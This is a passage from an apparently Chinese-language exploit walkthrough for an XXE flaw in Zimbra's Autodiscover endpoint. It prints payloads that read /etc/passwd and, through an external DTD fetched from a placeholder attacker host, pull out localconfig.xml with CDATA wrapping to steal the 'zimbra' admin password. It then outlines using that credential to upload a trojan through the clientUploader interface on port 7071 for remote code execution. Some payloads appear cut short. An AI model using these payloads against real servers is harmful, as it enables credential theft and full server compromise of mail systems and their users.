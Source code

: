 我们可以写出如下 payload，利用 xxe 漏洞

```php

<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
 <Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">
    <Request>
      <EMailAddress>123</EMailAddress>
      <AcceptableResponseSchema>&xxe;</AcceptableResponseSchema>
    </Request>
```

![image.png](assets/1700812438-91fba5211da2f4c6755b0a90464c78bf.png)

4、Zimbra 为 SOAP 通信设置了一个全局管理员，用户名为“zimbra”，并随机生成密码。这些信息均存储在名为 localconfig.xml 的本地文件中。在某些条件下可以使用此类凭证，通过/service/extension/clientUploader/upload 接口上传木马文件 RCE。但是存在权限设置，通过管理端口才能发起请求，默认情况下端口是 7071。

5、我们首先利用 XXE 读取 localconfig.xml 的本地文件，在 Java 环境的那我们可以使用 CDATA 读取，来绕过字符限制。

dtd 文件

```php
<?xml version="1.0" encoding="UTF-8"?>  <!ENTITY all "%start;%goodies;%end;">
```

payload

```php
   
<!ENTITY % goodies SYSTEM "file:../conf/localconfig.xml">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://attackip/12.dtd"> 
%dtd; ]> 
<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">
    <Request>
        <EMailAddress>aaaaa</EMailAddress>
        <AcceptableResponseSchema>&all;</AcceptableResponseSchema>
    </Request>
</Autodiscover>
```
